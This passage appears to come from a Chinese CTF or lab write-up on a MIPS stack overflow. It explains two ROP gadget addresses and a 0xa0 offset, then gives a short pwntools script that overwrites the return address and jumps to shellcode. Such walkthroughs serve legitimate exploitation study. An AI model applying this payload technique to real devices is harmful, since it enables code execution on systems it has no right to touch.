 [![](assets/1705903019-7cf7a57275d274801b08aef9a3eba99c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192730-e60e06fe-b786-1.png)  
这里是吧 sp+0x58 给 a2

[![](assets/1705903019-c49fe37de96be1224ebef2561e28de25.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192748-f04d8bda-b786-1.png)  
这里计算一下偏移

[![](assets/1705903019-6ebdee6e09b3924b60c6e9c5c231cd10.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192755-f4eafe84-b786-1.png)  
溢出位置： #0x0043965C | addiu $a2,$sp,0x68+var\_10 | jalr $fp  
fp 位置： #0x0040ABB8 | move $t9,$a2 | jalr $a2  
然后计算 a2 距离 buf 的偏移为 0xa0  
所以就直接写 shellcode

```bash
pl='a'*0x40+p32(0x0040ABB8)+p32(0x0043965C)
pl=pl.ljust(0xa0,'a')+shellcode
sa('Congratulation!\n',pl)
itr()
```
